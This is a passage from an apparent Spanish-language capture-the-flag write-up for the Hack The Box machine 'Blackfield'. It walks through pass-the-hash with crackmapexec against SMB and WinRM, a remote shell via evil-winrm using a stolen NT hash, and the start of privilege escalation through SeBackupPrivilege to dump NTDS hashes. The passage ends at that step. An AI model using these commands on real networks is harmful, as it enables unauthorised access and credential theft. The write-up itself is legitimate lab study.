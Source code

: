 Aqui tenemos informaciones como usuarios y contraseña **NT** hasheadas. Los NT Hashes nos permiten hacer **PassTheHash** que simplemente seria connectarnos
con el usuario poniendo la contraseña hasheada (No se necesita conocer la contraseña en este caso).

Vemos el hash del usuario Administrator. Controlamos esto con crackmap exec.

```bash
crackmapexec smb 10.10.10.192 -u 'Administrator' -H '7f1e4ff8c5a8e6b5fcae2d9c0472cd62'
```

Pero vemos que esta credencial no es valida. Vemos otro usuario 
```bash
 svc_backup 
```
 lo miramos.

```bash
crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'
```

Esta credencial esta valida. Intentamos ver si nos podemos conectar con winrm

```bash
crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'
```

Aqui vemos que este usuario es Pwn3d!

```bash
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'

whoami 
#Output
blackfield\svc_backup

ipconfig
#Output
10.10.10.192
```

Estamos conectados como el usuario svc_backup y podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd C:\Users\Administrator
dir
cd Desktop
dir
type root.txt
whoami /priv
```

No podemos todavia leer el **root.txt**, pero tiene un privilegio muy interesante que es el privilegio **SeBackupPrivilege**.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el **NTDS** que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.
